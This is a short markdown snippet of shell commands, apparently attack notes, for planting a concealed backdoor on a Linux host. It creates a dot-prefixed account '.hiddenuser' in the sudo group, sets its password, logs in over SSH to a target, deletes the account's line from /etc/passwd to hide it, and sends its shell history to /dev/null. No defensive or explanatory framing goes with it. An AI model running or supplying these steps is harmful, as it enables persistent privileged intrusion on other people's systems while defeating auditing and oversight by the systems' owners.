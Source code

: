 ```
sudo useradd -m -r -s /bin/bash -G sudo .hiddenuser
```

Set password
```
sudo passwd .hiddenuser
```

SSH to target
```
ssh .hiddenuser@$TARGET
```

Remove from /etc/passwd
```
sudo sed -i '/\.hiddenuser/d' /etc/passwd
```

Disable login history tracking
```
echo 'export HISTFILE=/dev/null' >> /home/.hiddenuser/.bashrc
```